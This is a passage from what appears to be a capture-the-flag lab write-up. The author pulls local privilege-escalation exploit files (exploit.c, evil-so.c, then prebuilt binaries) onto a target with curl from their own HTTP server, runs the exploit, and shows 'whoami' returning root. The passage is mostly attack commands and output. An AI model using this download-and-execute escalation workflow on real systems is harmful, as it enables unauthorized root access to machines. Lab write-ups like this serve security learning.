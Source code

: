 It had three files, evil-so.c, exploit.c and makefile. Just transfer the three and you're good to go.

```bash
$ curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c
curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   172  100   172    0     0    873      0 --:--:-- --:--:-- --:--:--   873
$ curl http://10.10.14.231:8000/exploit.c -o exploit.c
curl http://10.10.14.231:8000/exploit.c -o exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   555  100   555    0     0   2747      0 --:--:-- --:--:-- --:--:--  2747
$ curl http://10.10.14.231:8000/makefile -o makefile
curl http://10.10.14.231:8000/makefile -o makefile
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   148  100   148    0     0    740      0 --:--:-- --:--:-- --:--:--   740
$ make                                 
make
/bin/sh: 15: make: not found
```
Seriously? Make isn't installed, ohh well, lets just transfer the finished product. So I make it on my kali client and just transfer it.
```bash
$ curl http://10.10.14.231:8000/exploit -o exploit
curl http://10.10.14.231:8000/exploit -o exploit
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 16176  100 16176    0     0  53562      0 --:--:-- --:--:-- --:--:-- 53562
$ curl http://10.10.14.231:8000/evil.so -o evil.so
curl http://10.10.14.231:8000/evil.so -o evil.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15584  100 15584    0     0  51432      0 --:--:-- --:--:-- --:--:-- 51263
$ ./exploit
./exploit
# whoami
whoami
root
```
:space_invader:
